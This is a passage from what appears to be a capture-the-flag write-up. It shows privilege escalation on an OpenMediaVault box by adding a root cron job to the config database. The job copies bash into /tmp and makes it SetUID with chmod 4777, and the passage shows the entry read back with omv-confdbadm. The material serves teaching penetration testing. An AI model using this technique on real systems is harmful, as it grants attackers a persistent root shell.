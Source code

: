 
I’ll copy it to make an uncommented version, and fill it in, with the
following discoveries via trial and error:

  * A `uuid` is required and it has to be a valid UUID, but any UUID seems to work. I’ll generate one [here](https://www.uuidgenerator.net/version4).
  * I’ll use `exactly` as the `execution` as it was better than any of the others.
  * I’ll use `userdefined` as the type as it’s better than the others.
  * I’ll set `*` for all the items, and then leave the `everyminute`, `everyhour`, and `everydayofmonth` fields as `0`. I tried it as `1` and it didn’t seem to work.
  * I’ll set the command to create a SetUID `bash` binary.

    
    
    <job>
        <uuid>b8068c15-0d5e-4d38-a7d0-6885a31c8a53</uuid>
        <enable>1</enable>
        <execution>exactly</execution>
        <sendemail>0</sendemail>
        <type>userdefined</type>
        <comment>xxx</comment>
        <minute>*</minute>
        <everynminute>0</everynminute>
        <hour>*</hour>
        <everynhour>0</everynhour>
        <dayofmonth>*</dayofmonth>
        <everyndayofmonth>0</everyndayofmonth>
        <month>*</month>
        <dayofweek>*</dayofweek>
        <username>root</username>
        <command>cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf</command>
    </job>
    

After saving, I’ll read back the data using `omv-confdbadm`:

    
    
    openmediavault-webgui@derailed:/etc/openmediavault$ /sbin/omv-confdbadm read --prettify conf.system.cron.job
    [
        {
            "command": "cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf",
            "comment": "xxx",
            "dayofmonth": "*",
            "dayofweek": "*",
            "enable": true,
            "everyndayofmonth": false,
            "everynhour": false,
            "everynminute": false,
            "execution": "exactly",
            "hour": "*",
            "minute": "*",
            "month": "*",
            "sendemail": false,
            "type": "userdefined",
            "username": "root",
            "uuid": "b8068c15-0d5e-4d38-a7d0-6885a31c8a53"
        }
    ]
    